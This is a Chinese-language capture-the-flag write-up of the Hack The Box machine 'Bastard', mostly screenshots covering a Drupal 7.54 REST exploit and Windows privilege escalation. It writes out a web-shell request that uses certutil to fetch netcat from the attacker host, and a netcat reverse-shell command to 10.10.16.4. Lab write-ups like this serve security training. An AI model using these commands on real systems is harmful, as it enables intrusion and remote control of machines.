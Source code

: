 +++
title = '0X001 Bastard'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'HTB'
+++



# 端口扫描：

![](/htb_img/WEBRESOURCEb3d7a7acb7f5875803b8d77d07427b3eimage.png)

![](/htb_img/WEBRESOURCE47f3572f4d6819bed9f11b147ff33718image.png)

## 获取立足点

![](/htb_img/WEBRESOURCE0adc3946b4962d062d144b04c4b91882image.png)

![](/htb_img/WEBRESOURCE4771da8485050d5158dfe97c2d6a81dcimage.png)

版本是7.54：

![](/htb_img/WEBRESOURCEacfa99ca7197578961cf197a69b65897image.png)

判断一下，基本能用的就这些：

![](/htb_img/WEBRESOURCEd9ef537a0ef532d40abd2a39e7d78db3image.png)

第一个遇到需要寻找一个端点，来进行渗透测试：

![](/htb_img/WEBRESOURCE361f32b7cee278d6e2397924972769e7image.png)

通过gobuster发现node：

![](/htb_img/WEBRESOURCE2d914653c97c19b2474e340f7c0ee87eimage.png)

对该目录接着进行扫描，发现01：

![](/htb_img/WEBRESOURCE060b2eecf0df2aa12ed8723373928449image.png)

访问一下：

![](/htb_img/WEBRESOURCE75bad0944eda4e2d29aea5db9b89368bimage.png)

点击：

![](/htb_img/WEBRESOURCE204736d39eca3b90bbe5da6e8ca0cac3image.png)

把rest和rest_endpoint输入进去：

![](/htb_img/WEBRESOURCEde39c6c08041508ae9b3c72f521ba4e8image.png)

执行成功：

![](/htb_img/WEBRESOURCE4b89a0370927b80ba773bb5027f6b820image.png)

替换代码：

![](/htb_img/WEBRESOURCE1272b51816c79b770e4d253ff22071b8image.png)

执行：

![](/htb_img/WEBRESOURCE34510262979338e66fe15a8a177eb07bimage.png)

上传nc:

http://10.10.10.9/cxk.php?cxk=certutil -urlcache -split -f http://10.10.16.4/nc64.exe C:\Windows\Temp\b.exe

![](/htb_img/WEBRESOURCEb8ea0f9ba79c3e54cba1450d84b8f819image.png)

反弹shell:

start C:\Windows\Temp\b.exe -e cmd.exe 10.10.16.4 9999 

![](/htb_img/WEBRESOURCEe858889d3ce85b26fab611d93873b3adimage.png)

用第二个rb的脚本也是可以的：

![](/htb_img/WEBRESOURCE54d3e3046eaf9f5cabaa77e51418c19cimage.png)

![](/htb_img/WEBRESOURCE42d10c5ffacaba987b93e0f00f09e691image.png)

# 提权

![](/htb_img/WEBRESOURCE71fa67f3fe83b1240de15a3f64eccc75image.png)

ipconfig:

![](/htb_img/WEBRESOURCE2528263ca52659ee556d6737843b160bimage.png)

user.txt:

![](/htb_img/WEBRESOURCEf041f9aa2ccbe14d09898aa6c26c4a4dimage.png)

运行我们的脚本：

[https://github.com/carlospolop/PEASS-ng/releases/tag/20231224-836b4ac9](https://github.com/carlospolop/PEASS-ng/releases/tag/20231224-836b4ac9)

winpeass

![](/htb_img/WEBRESOURCE30cf72f1f7eee915348c9f0040ea73bfimage.png)

其实也得看一下这些里面哪些是常用的，和有EXP的：

[https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)

[https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051)

这里选一个，用得比较多的：

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#tools

![](/htb_img/WEBRESOURCE1f2fdbda2c12a9e9dec250061c236c4aimage.png)

：

![](/htb_img/WEBRESOURCEcb192e824d8e6394c4fb1b69ce8202c3image.png)

![](/htb_img/WEBRESOURCE865b7c59908b42faeccdaed093d08e1cimage.png)

![](/htb_img/WEBRESOURCEcbbe6ce19698e72975af06cbb985d0dfimage.png)
